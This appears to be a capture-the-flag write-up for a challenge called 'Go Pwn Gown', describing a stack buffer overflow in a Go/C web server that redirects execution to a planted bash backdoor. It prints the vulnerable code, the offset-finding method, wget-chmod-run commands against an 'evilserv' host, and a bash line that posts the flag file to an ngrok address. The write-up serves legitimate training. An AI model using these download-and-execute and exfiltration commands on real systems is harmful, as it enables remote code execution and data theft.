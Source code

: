 # Go Pwn Gown (day7)

<p align="justify">This challenge was a Pwn challenge in which the goal was to perform a buffer overflow on a website to read the flag stored on the server. Source code was provided with a docker file so that the server could have been ran locally, which revealed very helpful insofar as I had access to server logs. </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify"> Looking at source code, it seemed that a backdoor was already included in the code of the running server. This backdoor shown in the snippet below could have been used to run command remotely : </p>

````c
void unsafeFunction(char *gown) {
    char buffer[64];
    memcpy(buffer, gown, 128); // UTF8 AMIRIGHT ?!
    printf("Received: %s\n", buffer);
}

void laluBackdoor() {
    char *bash_path = "/bin/bash";
    extern char **environ;
    execle(bash_path, bash_path, "-c", "echo $(${GOWN})", NULL, environ);
}
````

<p align="justify">  The flaw here was caused by the use of a buffer of size 64 in which 128 bytes were copied. The parameter gown was read from the website and then handled thanks to the function below, calling the unsafeFunction() containing the weakness : </p>

````c
func handleRequest(w http.ResponseWriter, r *http.Request) {
	log.Println("Calling handleRequest")
	defer func() {
		log.Println(r.URL.Path)
		gown := r.URL.Query().Get("gown")
		if gown == "" {
			http.Error(w, "Gown parameter is missing", http.StatusBadRequest)
			return
		}

		cGown := C.CString(gown)
		if i := strings.IndexByte(gown, '\x00'); i != -1 {
			gown = gown[:i]
		}
		os.Setenv("GOWN", string(gown))
		fmt.Println("Getenv(GOWN) = ", os.Getenv("GOWN"))
		defer C.free(unsafe.Pointer(cGown))

		C.unsafeFunction(cGown)
		// C.laluBackdoor()
		w.Write([]byte("Request handled\n"))
	}()
}
````

<p align="justify">To exploit it, I started by running the docker on my machine to adjust my payload using the logs. I developped a tiny C script available under exploit.c in this repo, to guess the number of chars I had to sent before overwritte ret address on the stack. The method I followed is described below : </p>

- I started by extracting the server binary running in the docker
- Then I extracted the address of the lalubackdoor using gdb
- I used this address in little endian format crafting the payload like this : payload = 64* 'A' + [little endian backdoor address]. I started with 64 bytes because it was the size of the buffer
- Then I sent the payload to the server and added one char at each lap, checking the logs in the meaningtime to identify the exact number of bytes required to perform a bof

<p align="justify">It came that I had to sent 72 chars before being able to overwritte the ret address and access lalubackdoor, as shown in the snippet below with the error on the execution of /bin/bash meaning that I well overwrote the ret address : </p>

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

<p align="justify"> The payload size once defined; I implemented a second C script to send commands to run to the server so that I could have been able to read the flag, the script is available in exploit2.c in this repo. This script adjusts payload size considering length of command and relay it to server to perform RCE. After a few tries I identified the directory /flag which was likely to contain the flag as shown in the screenshots below : </p>

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>
<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="justify"> Finaly after adjusting my payload locally, I opened a listening port on my machine and sent the bash script below to read the flag on the challenge server and extract it. Actually I tried to download and launch a compiled revshell but I failed because LibC (nc too) was missing on the server. I'v done it with 3 commands : </p>

 - 1st : wget http://evilserv/exploit.sh
 - 2nd : chmod +x exploit.sh
 - 3rd : ./exploit.sh
   
````bash
#!/bin/bash
cat /flag/* | curl -X POST --data @- http://6.tcp.eu.ngrok.io:13524/
````

<p align="justify"> After that I received the flag : </p>

<p align="center"><img src="Screenshots/S5.png" alt="Desc"></p>

Flag : _RM{OffenSkillSaysWhat2024YouGotGowned}_ , thanks _Laluka_ for this challenge !
